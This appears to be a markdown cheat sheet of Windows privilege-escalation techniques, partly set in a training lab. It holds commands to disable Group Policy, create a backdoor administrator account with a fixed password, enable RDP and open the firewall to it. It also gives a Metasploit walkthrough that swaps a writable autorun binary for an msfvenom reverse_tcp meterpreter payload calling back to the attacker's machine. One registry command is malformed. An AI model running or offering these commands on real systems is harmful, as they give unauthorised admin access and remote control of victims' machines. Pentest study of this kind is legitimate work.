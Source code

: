 # Windows Privlage Escalation
![alt text](https://miro.medium.com/max/2400/0*I-5KzneqUHfF7bHR.png)
## Kernel Exploits
- https://github.com/SecWiki/windows-kernel-exploits
## Admin Service that a Standard User can run
- https://www.youtube.com/watch?v=3BQKpPNlTSo
## Run Executable in Background
````
start /B program
````
## Disable/Enable Group Policy
- Disable:
````
REG add "HKCU\Software\Policies\Microsoft\MMC{8FC0B734-A0E1-11D1-A7D3-0000F87571E3}" /v Restrict_Run /t REG_DWORD /d 1 /f
````
## Enable:
````
REG add "HKCU\Software\Policies\Microsoft\MMC{8FC0B734-A0E1-11D1-A7D3-0000F87571E3}" /v Restrict_Run /0 REG_DWORD /d 1 /f
Add Admin & Enable RDP
net user /add hacked Password1
net localgroup administrators hacked /add
net localgroup Administrateurs hacked /add (For French target)
net localgroup "Remote Desktop Users" hacked /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service type = REMOTEDESKTOP mode = ENABLE scope = CUSTOM addresses = 10.0.0.1
````
## xfreerdp
````
xfreerdp /v:10.10.25.227 /u:Wade /p:parzival /cert:ignore /drive:/usr/share/windows-resources,share /dynamic-resolution
````
#### Credit
- Taken from Tib3rius

## Basic Enumeration
- Find out the users on the box and enumerate their privlages
````
net users
net users Administrator
````
## Registry Escalation - Autoruns
- Detection
- 1. Open command prompt and type: 
````
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
````
- 2. In Autoruns, click on the `Logon` tab.
- 3. From the listed results, notice that the “My Program” entry is pointing to 
````
C:\Program Files\Autorun Program\program.exe
````
- 4. In command prompt type: 
````
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
````
- 5. From the output, notice that the `"Everyone"` user group has `"FILE_ALL_ACCESS"` permission on the `"program.exe"` file.
- Exploitation
- Kali VM
- 1. Open command prompt and type: `msfconsole`
- 2. In Metasploit (msf > prompt) type: `use multi/handler`
- 3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp` or `windows/x64/shell/reverse_tcp`
- 4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
- 5. In Metasploit (msf > prompt) type: `run`
- 6. Open an additional command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe`
- 7. Copy the generated file, `program.exe`, to the Windows VM.
- Windows VM
- 1. Place `program.exe` in `C:\Program Files\Autorun Program`
- 2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.
- Kali VM
- 1. Wait for a new session to open in Metasploit.
- 2. In Metasploit (msf > prompt) type: `sessions -i [Session ID]`
- 3. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: `getuid`
- 



















